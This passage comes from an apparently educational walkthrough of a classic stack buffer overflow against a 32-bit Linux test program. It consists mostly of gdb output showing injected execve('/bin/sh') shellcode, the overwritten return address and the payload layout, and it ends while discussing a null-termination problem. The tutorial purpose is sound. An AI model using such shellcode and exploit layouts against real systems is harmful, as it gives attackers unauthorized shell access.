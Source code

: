 ``` {.example}
   0x0804851c <+71>:    jl     0x80484f6 <vuln+33>
   0x0804851e <+73>:    leave  
   0x0804851f <+74>:    ret    
End of assembler dump.
(gdb) 
```

At this point, we are right after the call, so we can take a look around
and we should see our shell code at the address `ebp-0x2c` and the
return address.

``` {.example}
(gdb) x/x $ebp+0x4
0xbffff62c: 0xbffff5fc
(gdb) x/16i 0xbffff5fc
   0xbffff5fc:  jmp    0xbffff615
   0xbffff5fe:  pop    esi
   0xbffff5ff:  xor    eax,eax
   0xbffff601:  push   eax
   0xbffff602:  push   esi
   0xbffff603:  xor    edx,edx
   0xbffff605:  mov    ecx,esp
   0xbffff607:  mov    ebx,esi
   0xbffff609:  mov    al,0xb
   0xbffff60b:  int    0x80
   0xbffff60d:  xor    ebx,ebx
   0xbffff60f:  xor    eax,eax
   0xbffff611:  mov    al,0x1
   0xbffff613:  int    0x80
   0xbffff615:  call   0xbffff5fe
   0xbffff61a:  das    
(gdb) p $ebp-0x2c
$2 = (void *) 0xbffff5fc
```

Everything loks good so far. There is the shell code and in the right
place. Looking closer, we should expect at 0xbfffff61a to be the string
"/bin/sh" as this is jmp-callback. Let's take a look:

``` {.example}
(gdb) x/s 0xbffff61a
0xbffff61a: "/bin/sh", 'A' <repeats 11 times>, "\374\365\377\277"
```

Woops! We see our "/bin/sh" string but we also see a sh\*ton of A's
following. That is to be expected given the way we set up our exploit:

``` {.example}
                   .-------------------------.
                   |                         |
                   v                         |
   ./vulnerable 5 <shell-code><padding><address-of-buf>
```

The padding occurs after our shell code, and now we are toast. We can't
NULL terminate our shell-code because that means we won't pad out to the
return address. We need to do something different.
